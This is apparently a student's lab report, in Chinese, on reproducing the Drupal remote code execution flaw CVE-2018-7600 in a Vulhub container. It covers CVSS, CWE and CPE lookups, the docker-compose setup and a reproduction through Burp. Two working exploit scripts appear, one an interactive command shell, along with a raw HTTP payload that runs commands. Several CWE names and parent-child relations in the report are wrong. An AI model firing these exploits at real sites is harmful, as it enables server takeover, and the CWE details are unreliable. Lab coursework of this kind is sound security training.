# 第三章：基于容器技术的渗透测试靶场环境构建
## 实验一：
### 1.  请利用搜索引擎，自行对比 CVSS v2、v3、v4 之间的演化过程和区别。
    CVSS v2.0（2007.6）：
    细化了评分粒度，明确了各评分指标的定义，能够更精确地反映不同漏洞的特征。
    引入时效性评估和环境评估指标，为基础指标做补充。

    CVSS v3.0（2015.6）：
    新增用户交互（UI）和必要权限（PR）两个指标，为攻击复杂度（AC）指标引入了新的取值。
    新增Scope (S) 指标来处理漏洞存在于一个系统但影响另一个系统的情形。

    CVSS v3.1（2019.6）：
    并未引入新的指标，但对标准给出了更清晰的解释，增加了易用性。

    CVSS v4.0（2023.10.31）：
    新的指标命名，为强调CVSS并不等同于CVSS基础分，FIRST重新定义了新的评分术语体系。
    增加新指标Attack Requirements，在CVSS 3.1规范中，单一的攻击复杂度指标涵盖了过多场景，例如对需要绕过地址随机化或破解密钥等攻击难度较大的漏洞，与只需多次重复攻击以命中竞争条件的漏洞，采用同等的High评级进行打分，显然是不合理的。为细化评分粒度，CVSS 4.0从CVSS 3.1原有的Attack Complexity指标中单独标拆分出了Attack Requirements指标。
    Recovery ® 描述了系统在受到攻击后恢复服务的能力（即韧性），这里主要指性能和可用性的恢复。

    CVSS 4.0更像是一次中规中矩的优化更新，并没有提出革命性的新概念，但的的确确解决了上代标准中广受诟病的几个问题，让评分过程更加清晰明了，并且增加了标准对不同应用场景的适应性。
### 2. 使用 CVSS 计算器分别计算 CVE-2018-7600 的 CVSS v2、v3、v4 的 CVSS评分
#### **通过NVD官网可查找到针对于CVE-2018-7600的v2与v3计算过程及结果，如下图所示：**

1. **v2评分及计算**


2. **v3评分及计算**
 


#### **根据以上的信息，可以通过一些CVSS计算网站根据NVD提供的V3计算方式来映射到V4中进而计算出v4评分**



### 3. 关于 CVE-2018-7600 的 CWE 编号请回答以下问题：
* **CVE-2018-7600 的 CWE 编号是什么？有什么含义？**
  **从NVD官网可以查到CVE-2018-7600的编号为CWE-20**

  

  **而CWE-20的具体含义如下：**
 ```
    CWE编号的开头部分"CWE-"表示这是一个Common Weakness Enumeration的标识符。
    CWE编号的后面的数字部分通常表示该弱点所属的类别或类型。
    CWE-20 表示输入验证不足的弱点，这可能导致应用程序接受恶意输入，从而引发安全漏洞。
```
* **CVE-2018-7600 的 CWE 编号从属于哪些CWE编号？（请列举至少三个）**
  CVE-2018-7600 的 CWE 编号为CWE-20，从属于以下编号：
  1. CWE-79：不正确的验证
  2. CWE-89：SQL注入
  3. CWE-91：XML注入
  4. CWE-98：隐式授权
  5. CWE-200：信息泄露
  6. CWE-352：跨站脚本（XSS）
  7. CWE-434：未经验证的重定向
  8. CWE-601：URL重定向到不受信任的站点
* **请给出该 CVE 编号从根节点到该节点再到其所有子节点的完整CWE从属关系（到该 CWE 节点的一层子节点即可）。**
  ```
                      +----------------------------+
                    | CWE-664: 访问控制问题       |
                    +----------------------------+
                                    |
                                    |
                                    V
                    +----------------------------+
                    | CWE-20: 不恰当的输入验证    |
                    +----------------------------+
                   /        |         \        \         \
                  /         |          \        \         \
                 V          V           V        V         V
       +----------------+  +---------+ +-------+ +------+ +------------------+
       | CWE-78: 命令注入 |  | CWE-79: XSS | | CWE-89: SQL注入 | | CWE-120: 缓冲区溢出 | | CWE-134: 使用格式字符串 |
       +----------------+  +---------+ +-------+ +------+ +------------------+

  ```


* **该 CWE 类型可以通过哪些漏洞挖掘方法发现？（请列举至少三个）**
     CWE-20类型的漏洞可以通过以下漏洞挖掘方法发现：
```
1. 输入验证绕过：通过尝试在输入字段中输入特殊字符、SQL注入语句或其他恶意代码，看是否能够绕过输入验证来执行未经授权的操作。
2. 参数污染攻击：通过修改URL参数或表单字段中的值，尝试篡改应用程序的行为，例如修改用户权限或访问其他用户的数据。
3. XSS攻击：尝试在输入字段中注入恶意脚本，以在受害者浏览器中执行恶意代码，从而窃取用户信息或执行未经授权的操作。
```   

* **还有哪些其他漏洞与 CVE-2018-7600 的 CWE 编号相同？（请列举至少三个）**
  如下：
```
CVE-2014-9390
CVE-2015-6232
CVE-2016-1000119
CVE-2017-8831
CVE-2017-1001000
CVE-2017-1001001
CVE-2018-1000632
CVE-2018-1000633
```
### 4. 关于 CVE-2018-7600 的 CPE 信息请回答以下问题：
* 该漏洞的受影响软件有哪些？
**同样可在NVD官网查找到影响的相关软件：**



* **该漏洞的受影响软件的哪些版本受到了影响**
同样可由上图中的看出哪些版本受到了影响。
### 5. 关于 CVE-2018-7600 的 References 信息请回答以下问题：
* 该漏洞的漏洞利用脚本有哪些？（请给出至少两个漏洞利用脚本及其对应的网站链接）
   关于CVE-2018-7600的漏洞利用脚本:
   [CSDN博客上的示例：](https://blog.csdn.net/weixin_42742658/article/details/112479848)
```
import requests
import re
from sys import argv

domain = argv[1]


def exploit(command):
	HOST=domain

	get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':command, 'name[#type]':'markup'}
	post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
	r = requests.post(HOST, data=post_params, params=get_params)

	m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
	if m:
	    found = m.group(1)
	    get_params = {'q':'file/ajax/name/#value/' + found}
	    post_params = {'form_build_id':found}
	    r = requests.post(HOST, data=post_params, params=get_params)
	    print("\n".join(r.text.split("\n")[:-1]))


while True:
	command = raw_input('$ ')
	exploit(command)

   这个示例提供了两种不同的利用方式。第一种是直接通过POST请求执行命令，例如使用命令“id”来执行。第二种则是通过构造一个更复杂的POST请求，其中包括特定的表单数据来执行命令。
```
   [博客园上的示例：](https://www.cnblogs.com/liang-chen/p/14377891.html)
```
      #!/usr/bin/env python3
      import sys
      import requests
      print ('################################################################')
      print ('# Proof-Of-Concept for CVE-2018-7600')
      print ('# by Vitalii Rudnykh')
      print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
      print ('# https://github.com/a2u/CVE-2018-7600')
      print ('################################################################')
      print ('Provided only for educational or information purposes\n')

      target = input('Enter target url (example: https://domain.ltd/): ')

      # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
      # set verify = False if your proxy certificate is self signed
      # remember to set proxies both for http and https
      # 
      # example:
      # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
      # verify = False
      proxies = {}
      verify = True

      url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
      payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

      r = requests.post(url, proxies=proxies, data=payload, verify=verify)
      check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
      if check.status_code != 200:
         sys.exit("Not exploitable")
      print ('\nCheck: '+target+'hello.txt')
```
   这个示例提供了一个链接，可以从GitHub下载一个Python脚本，用于利用CVE-2018-7600。该脚本执行后，可以访问特定的URL来验证命令是否执行成功。这个脚本还可以修改执行其他命令或反弹shell等 。

* 请给出该漏洞的漏洞原理分析博客/网站？请给出至少两个博客或网站链接）
  [ CSDN博客 - Drupal代码执行 (CVE-2018-7600)复现](https://blog.csdn.net/youthbelief/article/details/121146464)
   [绿盟科技技术博客 - Drupal远程代码执行漏洞(CVE-2018-7600)分析](https://blog.nsfocus.net/cve-2018-7600-analysis/)


## 实验二
### 1. 构建完成 CVE-2018-7600 容器环境，并回答以下问题：
**逐行分析 CVE-2018-7600 的 docker-compose.yml 文件，并进一步找出构建其基础镜像的 Dockerfile**
1. 先在github上找到相关仓库vulhub，进入drupal相应目录，找到的`CVE-2018-7600`，找到yaml文件，对其进行分析：
 * 第一行：version: '2' - 这里指定了YAML文件的版本号为2。

* 第二行：services: - 这里开始定义服务。

* 第三行至第六行：

  * web: - 这里定义了一个名为web的服务。
  * image: vulhub/drupal:8.5.0 - 指定了使用的Docker镜像为vulhub/drupal的版本8.5.0。
  * ports: - 这里开始定义端口映射。
  * "8080:80" - 将主机的端口8080映射到容器的端口80。 
  



2. 进行探索检查后发现，drupal的Dockerfile文件位于base目录下的drupal中
   


### 2. 容器启动后，进入 drupal 的管理页面，安装并配置完成 drupal。
1. 首先进行拉包，从github上拉取vulhub仓库
   

   
2. 然后依次进入`vulhub/drupal/CVE-2018-7600`目录并执行命令`docker compose up -d`以启动容器 
   


3. 启动容器后可以从虚拟机浏览器进入端口号为8080的网页并开始进行drupal的安装
   


  * 按照要求填写信息，完成安装


### 3. 基于 Vulhub 中的 PoC，复现 CVE-2018-7600 漏洞。
1. 首先在火狐中安装插件Proxy SwitchyOmega插件，实现地址代理，对该插件进行相关配置
   * 这里使用了8081端口，默认为8080，但是和drupal的端口重叠了，所以进行更换，尽量换一个大的端口号，防止和其他已被占用的端口冲突
    
  
   
2. 然后打开kali自带的工具`Burp Suit`,并进行如图的相关配置,注意这里填写的端口号为之前在火狐插件中设置的端口号(**8081**)
   



3. 为确保burp能够正常抓取浏览器中的网页请求信息，经验证需要下载并导入CA证书，具体步骤如下：
   * 首先在浏览器中输入网址http://burp
   * 点击右上角`CA Certificate`下载证书
  


   * 进入浏览器设置界面(**settings**),进入certificate manager 将下载的证书导入其中
  
  

4. 进行完如上步骤后即可捕获数据包信息，但复现PoC中的内容不用捕获数据包也能实现：
   * 进入`burp`中
   * 进入`Repeater`中设置靶机地址(即之前vulhub中yaml文件中的端口号和虚拟机ip)
  

   * 然后在request中输入vulhub中给出的Poc代码，注意其中的your-ip为主机的ip地址,后面紧跟着的端口号为创建drupal所使用的端口号(默认为8080)
   ```
      POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
      Host: your-ip:8080
      Accept-Encoding: gzip, deflate
      Accept: */*
      Accept-Language: en
      User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
      Connection: close
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 103

      form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
  ```
   * 进行完以上操作后点击发送，确保代码缩进空格等都没有问题，在Response中即可显示响应数据包信息




   * 对比vulhub中的教程发现和其测试结果一样，至此，漏洞复现完毕

### 4. 基于你从 CVE-2018-7600 的 References 信息中找到的 PoC，复CVE-2018-7600 漏洞。
   #### 1. 根据要求可在NVD官网提供的References中选择一个PoC进行复现,这里选择了框起来的那个PoC



   #### 2. 进入链接阅读观察其适用的drupal版本是否适合，确认合适后继续进行后续操作



   #### 3. 在这个PoC中，作者使用python发送了一个请求，并将hello.txt文件传入其中，并且在drupal的回应数据包中提取出文件内容。

   

   #### 4. 故可以根据python文件的信息将请求请求写出来进行复现,对应的Response也如图所示：

   
## 实验三
### 1. 请基于搜索引擎，或 Vulhub 中的信息，或你从 NVD 中获取到的 CVE-2018-7600 信息，找到一份你喜欢的漏洞分析报告，完成以下问题：
**在这里选择的漏洞分析报告是一篇中文漏洞分析报告https://blog.nsfocus.net/cve-2018-7600-analysis/** 
  * 根据报告判断漏洞类型。
  根据报告可以清楚地知道`CVE-2018-7600`漏洞为一个**远程代码执行**类型的漏洞

  

  * 根据报告分析漏洞产生原理。
    * 根据报告，可以看出，该漏洞会产生的根本原因，是因为drupal会创建一个表单并对表单进行HTML渲染。根据这一点，在用户进行注册时，若输入表单的内容有问题，则会调用一个名为buildform的方法，将用户输入的内容渲染为HTML返回，利用这一点，就可以将恶意代码入其中。
   




### 2. 请根据你分析出来的漏洞原理，找到产生该漏洞的原始代码文件及其中具体的代码位置。
 * 在报告中作者已经给出了漏洞源文件的位置信息
 

 * 进入虚拟机查找目标位置
  


* 可知文件位于镜像当中,要想查看镜像中的文件，可以使用命令`exec -it`进入镜像的**bash**,然后利用`find -n`命令查找文件位置，最后`cd`到目标目录进而找到目标文件
  


* 由于目标文件有很多行数，所以这里使用`grep -n`查找到关键词的位置行数，然后再用`sed`显示那几行,确认代码位置





### 3. 【扩展】请自由发挥，思考一下问题：

* 如何从 drupal 的开源仓库中，找到修复 CVE-2018-7600 对应的 commit 的记录
  #### 下面展示的是在github仓库中实现：
1. 首先在vulhub中根据其中的参考链接找出CVE-2018-7600对应的别称
   
2. 根据别称在github仓库中进行搜索，筛选commit类型，结果如图所示：
   
3. 根据history分析，发现该commit即为最早的相关commit，同样可以在仓库中找到有问题的代码块，而不是在容器中查找
   #### 通过另外的官方开源库实现：

1. **通过网络搜索可以发现，drupal的开源仓库为：`https://git.drupalcode.org/project/drupal`通过进一步查询，发现drupal会对漏洞给出自己的安全编号，而SA-CORE-2018-002正是Drupal官方给出的安全公告编号，对应的是CVE-2018-7600这个安全漏洞**
   

2. **为了找到关于这条漏洞的相关信息，需要进入drupal网站进一步锁定目标**



  3. **为了找到commit记录，可以继续阅读分析该网页,发现针对该漏洞的解决方案提交链接**



**依次进入链接，找到最早提交的修补提交**



* 如何找到哪一次 commit 第一次引入了 CVE-2018-7600 漏洞？

  首先切换到view history 查看修改记录



  打开后内容如下，可以发现在2018年月29号第一次提交，进入链接可以找到相关的漏洞分析和针对各个版本的修补方案




#### 遇到的问题及解决方式：
不会发送数据包：搜索相关网页学习方法
不会进入容器查看代码：同上，结合AI帮助解决

#### 参考链接：
https://zhuanlan.zhihu.com/p/660939060
https://zhuanlan.zhihu.com/p/664883447
https://blog.csdn.net/qq_33163046/article/details/128293938
https://blog.csdn.net/limb0/article/details/107122919/
https://blog.nsfocus.net/cve-2018-7600-analysis/
https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/
https://git.drupalcode.org/
https://www.drupal.org/node/2956770/revisions/10900569/view
https://blog.csdn.net/weixin_42742658/article/details/112479848
https://www.cnblogs.com/liang-chen/p/14377891.html